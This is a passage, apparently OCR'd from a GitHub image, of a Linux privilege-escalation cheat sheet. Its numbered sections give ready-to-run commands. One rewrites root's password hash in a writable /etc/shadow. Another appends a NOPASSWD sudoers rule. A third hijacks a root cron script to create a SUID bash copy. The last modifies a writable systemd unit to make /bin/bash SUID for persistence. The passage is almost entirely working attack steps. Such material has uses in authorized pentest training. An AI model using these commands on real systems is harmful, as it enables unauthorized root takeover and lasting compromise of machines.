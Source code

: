 2) Writable /etc/shadow (set root’s password hash)
```
# Backup first
cp /etc/shadow /tmp/shadow.bak

# Generate SHA-512 hash
HASH=$(openssl passwd -6 'P@ssw0rd!')

# Replace root's password field with our hash
sed -i "s|^root:[^:]*:|root:${HASH}:|" /etc/shadow

# Become root
su - root
```

3) Writable sudoers/sudoers.d (grant NOPASSWD to current user)
```
# Backup first
cp /etc/sudoers /tmp/sudoers.bak

# Append carefully; validate with visudo
ME=$(whoami)
echo "${ME} ALL=(ALL:ALL) NOPASSWD:ALL" | EDITOR='tee -a' visudo

# Use it
sudo -s
id
```

4) Root cron invoking a writable script (hijack the script)
```
# Identify a root cron job and the script it runs (example)
cat /etc/crontab
# Suppose it runs /usr/local/bin/backup.sh as root and that file is writable

# Backup script then replace payload
cp /usr/local/bin/backup.sh /tmp/backup.sh.bak
cat > /usr/local/bin/backup.sh << 'EOF'
#!/bin/bash
cp /bin/bash /tmp/bashroot
chmod u+s /tmp/bashroot
EOF
chmod +x /usr/local/bin/backup.sh

# Wait for cron to run, then:
ls -l /tmp/bashroot
/tmp/bashroot -p
id
```

5) Writable systemd service unit or its script (persistence on restart)
```
# Find a writable service unit (example: /etc/systemd/system/app.service)
find /etc/systemd/system -type f -name "*.service" -writable -ls 2>/dev/null

# Backup then modify ExecStart to set SUID on /bin/bash
SVC=/etc/systemd/system/app.service
cp "$SVC" /tmp/app.service.bak
sed -i 's|^ExecStart=.*|ExecStart=/bin/bash -c "chmod u+s /bin/bash"|' "$SVC"

# When the service restarts (timer/reboot/crash/redeploy), you should get:
ls -l /bin/bash
/bin/bash -p -c 'id'
```
